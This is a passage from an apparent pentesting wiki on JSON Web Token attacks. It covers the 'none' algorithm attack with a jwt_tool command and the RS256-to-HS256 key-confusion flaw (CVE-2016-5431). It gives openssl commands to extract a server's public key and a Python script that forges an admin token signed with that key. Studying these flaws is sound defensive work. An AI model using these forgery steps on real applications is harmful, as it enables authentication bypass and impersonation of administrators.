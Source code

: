 {% tab title="jwt_tool.py" %}
```bash
python3 jwt_tool.py <JWT> -X a
```
{% endtab %}
{% endtabs %}

Most (hopefully all?) implementations now have a basic check to prevent this attack: if a secret key was provided, token verification will fail for tokens using the None algorithm. This is a good idea, but does not solve the underlying problem: attackers control the choice of algorithm.

### CVE-2016-5431 - Exposed public Key

The HS256 algorithm uses the secret key to sign and verify each message. The RS256 algorithm uses the private key to sign the message and uses the public key for authentication. If the algorithm is changed from RS256 to HS256, the back-end code uses the public key as the secret key and then uses the HS256 algorithm to verify the signature. Then, using the public key and changing RS256 to HS256 we could create a valid signature.

#### Requirements

* The application should expect the JWT to be signed with a public key based algorithm (i.e. RSxxx or ESxxx).
* The application must not check which algorithm the JWT actually uses for signing.
* The public key used to verify the JWT must be available to the attacker.

If all these conditions are true, then an attacker can use the public key to sign the JWT using an HMAC-based algorithm (such as HS256).

{% tabs %}
{% tab title="Manual" %}
```bash
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

```python
import hmac
import hashlib
import base64

#Paste the file with the key 
file=open('public.pem')

key = file.read()

#Paste your header and payload here
header = '{"alg":"HS256"}'
payload = '{"name":"admin"}'

#Creating encoded header
encodedHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodedHeader = str(encodedHBytes, "utf-8").rstrip("=")

#Creating encoded payload
encodedPBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(encodedPBytes, "utf-8").rstrip("=")

#Concatenating header and payload
token = (encodedHeader + "." + encodedPayload)

#Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"),token.encode('utf-8'),hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

print(token + "." + sig)
```
